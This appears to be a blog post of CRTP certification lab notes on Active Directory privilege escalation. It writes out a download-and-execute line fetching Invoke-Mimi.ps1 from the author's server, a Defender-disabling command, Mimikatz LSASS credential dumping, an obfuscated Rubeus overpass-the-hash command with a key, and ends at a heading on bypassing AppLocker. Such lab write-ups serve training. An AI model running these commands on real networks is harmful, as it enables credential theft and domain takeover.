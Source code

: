 ```yaml
---
layout: post
title: Active Directory (AD) | Local Privilege Escalation (Part 2)
date: 2024-07-01 00:41:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     # TAG names should always be lowercase
render_with_liquid: false
---
```


## Extract Credentials from LSASS (Invoke Mimikatz)

Once we have remote admin session on the remote machine, we will extract credentials from LSASS. Bear in mind , **to avoid LSASS unless you have nothing to do.**

Check if we can run commands on dcorp-mgmt using PowerShell remoting

```bash
Invoke-Command -ScriptBlock {$env:username;$env:computername}    -ComputerName dcorp-mgmt
```

Now, let’s use Invoke-Mimi to dump hashes on dcorp-mgmt to grab hashes of the domain admin. This script is to downloads and executes the Invoke-Mimi.ps1 that is hosted in my web server.

```bash
 iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
```

Then, we need to bypass the AMSI using our [script](https://beardenx.github.io/posts/Bypass-AMSI-Like-a-King/). OR

we can use the AMSI bypass we have been using or the built-in Set-MpPrefernce as well because we have administrative access on dcorp-mgmt


```jsx
---
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local

Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess

Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess
---
```

### Using OverPass-the-Hash (Rubeus)

Finally, use OverPass-the-Hash to use svcadmin's credentials.

Run the below commands from an elevated shell on the student VM to use Rubeus.

```jsx
---
ArgSplit.bat

#Run the above commands in the same command prompt session
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
---
```


```jsx
---
Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
---
```

Now, we get our TGT Ticket. Try accessing the domain controller from the new process!
Note that we did not need to have direct access to dcorp-mgmt from student machine 100.X.

```jsx
---
winrs -r:dcorp-dc cmd /c set username USERNAME=svcadmin
---
```

# 7. Domain Admin Escalation using Derivative Local Admin (Find-PSRemotingLocalAdminAccess.ps1)


```jsx
---
 Find-PSRemotingLocalAdminAccess
---
```

Bypassing Applocker
